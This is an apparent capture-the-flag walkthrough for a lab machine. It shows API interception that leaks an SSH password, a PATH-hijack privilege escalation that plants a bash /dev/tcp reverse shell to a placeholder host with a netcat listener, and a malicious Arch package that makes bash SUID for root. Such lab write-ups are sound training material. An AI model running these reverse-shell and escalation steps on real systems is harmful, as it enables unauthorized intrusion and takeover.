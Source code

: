 ```bash
Using Burp Suite, we intercept API requests made by the admin panel. We identify the following JSON-RPC call:
{
  "jsonrpc": "2.0",
  "method": "eth_getBalance",
  "params": ["0x38D681F08C24b3F6A945886Ad3F98f856cc6F2f8", "latest"],
  "id": 1
}

To gather additional information, we craft a new request to fetch a block by number:
{
  "jsonrpc": "2.0",
  "method": "eth_getBlockByNumber",
  "params": [
    "0x10d4f",
    true
  ],
  "id": 1
}

The response contains sensitive data. Decoding the hexadecimal reveals:
keira//SomedayBitCoinWillCollapse

This is the SSH password for the user keira.
User Access
SSH Access

Using the credentials obtained:
ssh keira@10.10.11.43
Password: SomedayBitCoinWillCollapse
Privilege Escalation to Paul
Exploiting PATH Vulnerability

We observe that keira can execute a script under paul's permissions:
sudo -u paul PATH=/tmp/rev:$PATH /home/paul/.foundry/bin/forge completions bash

We prepare a reverse shell payload:
mkdir -p /tmp/rev
cat > /tmp/rev/git << EOF
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1
EOF
chmod +x /tmp/rev/git

Setting up a listener:
nc -nlvp <PORT>

Executing the command provides a shell as paul.
Privilege Escalation to Root
Abusing Package Installation

We create a malicious Arch Linux package to modify bash permissions:
cd /dev/shm
cat > PKGBUILD << EOF
pkgname=exp
pkgver=1.0
pkgrel=1
arch=('any')
install=exp.install
EOF

echo "post_install() { chmod 4777 /bin/bash; }" > exp.install
makepkg -s
```